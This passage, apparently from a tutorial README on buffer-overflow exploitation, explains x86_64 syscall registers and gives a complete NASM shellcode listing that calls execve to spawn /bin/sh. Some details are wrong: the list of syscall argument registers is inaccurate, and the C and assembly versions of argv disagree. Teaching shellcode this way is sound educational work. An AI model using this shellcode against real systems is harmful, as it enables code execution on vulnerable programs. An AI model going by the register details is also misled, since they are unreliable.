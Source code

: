 Writing the Shellcode
----
Now we are going to shift gears and look at how to write shellcode. Shellcode is a string of bytes that represent machine code and is used as a convienient way to inject code into a vulnerable program. For this exploit I am going to use shellcode that returns a command shell after being executed. Here is a quick introduction to assembly language on x86_64 architechture. 

Memory registers are used as a way to store and access memory addresses. The registers we will be using are RAX, RDI, RSI, RDX, RBX, RCX. In this order, these registers hold aruments for system calls defined in *"/usr/include/x86_64-linux-gnu/asm/unistd_64.h"*. In this file we find a function and its numeric representation. Using the **man** shell command, we can look up information about a function and what arguments need to be supplied to the syscall. The numeric representaion of a function is always put in the RAX register, and the first argument is put in the RDI register and so on, respectively to the order stated above. For this shellcode we will use the *exceve* syscall. Let's take a look at the man page for this function.

![execve man page](pics/execve_manpage.png)

Let's define these arguments in C code for a better visual:

        *pathname[] = "/bin//sh";   //shell string, extra slash is ignored
        *argv[] = {pathname, NULL};    //argv points to our null terminated shell string
        *envp[] = NULL;               //we are not using this argument, so we set it to NULL

In a directory called *shellcode* inside the main directory are a couple of handy programs to help in writing the shellcode. This is what **shellcode.s** looks like:

        BITS 64

        ;execve(const char *filename, char *const argv[], char *const envp[])
        push 59                     ;syscall number for execve on linux_64
        pop rax                     ;syscalls are stored in rax register
        xor rdx, rdx                ;zero out rdx, makes 3rd argument NULL(envp)
        xor rbx, rbx                ;zero out rbx register
        push rdx                    ;push NULL stack
        pop rsi                     ;puts NULL into 2rd argument to execve(argv)
        mov rbx, 0x68732f2f6e69622f ;put '/bin//sh' into rbx register
        push rdx                    ;push NULL string termiator to stack
        push rbx                    ;push filename string to stack
        push rsp                    ;pointer to filename argument
        pop rdi                     ;puts filename pointer into first argument register
        syscall 
